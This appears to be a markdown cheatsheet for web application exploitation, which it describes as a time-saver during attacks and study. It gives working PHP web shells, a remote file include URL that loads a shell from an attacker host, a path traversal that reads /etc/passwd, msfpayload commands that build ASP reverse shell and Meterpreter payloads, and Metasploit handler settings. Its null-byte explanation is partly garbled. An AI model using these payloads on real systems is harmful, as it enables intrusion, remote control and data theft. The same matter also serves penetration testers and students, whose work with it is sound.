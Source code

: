 # Web Application exploitation - a cheatsheet
This is a work in progress. Additions, suggestions and constructive feedback are welcome.
The purpose of these cheatsheets is to, essentially, save time during an attack and study session.


## WebShell Backdoors
Minimal php command shells
file cmd.php: PHP script text =>
```

<?php system($_GET['cmd']) ?>
or
<?php system($_REQUEST['cmd']); ?>
Example usage via Remote File Include (RFI):
http://<target-ip>/index.php?cmd=<command to execute>&page=http://<attacker-ip>/cmd.php
Null Bytes (‰00 - html code ampersand, hash 137, 00) may also assist in some cases:
http://<target-ip>/index.php?cmd=<command to execute>&page=http://<attacker-ip>/cmd.php
‰
e.g.
http://<attacker-ip>/index.php?system=../../../../../etc/passwd.html
Encoding windows reverse command shell as asp
msfpayload windows/shell_reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-nc-port> R | msfencode -t asp -o <filename>.asp
Encoding meterpreter in asp
msfpayload windows/meterpreter/reverse_tcp LHOST=<attacker-ip> LPORT=<attacker-multi-handler-port> R | msfencode -t asp -o <filename>.asp
------
attacker msfconsole:
use multi/exploit/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attacker-ip>
set LPORT <attacker-multi-handler-port>
exploit

```

http://stackoverflow.com/questions/3115559/exploitable-php-functions


------------------------------------------------------------------------------------------------------------------
#### Encoding and Decoding - for backdoors, injection, and (de)obfustication
```

http://www.asciitohex.com/
http://home.paulschou.net/tools/xlate/
http://www.idea2ic.com/PlayWithJavascript/hexToAscii.html
```

Burp Suite (Decoder module)
```
http://portswigger.net/burp/help/decoder.html
```
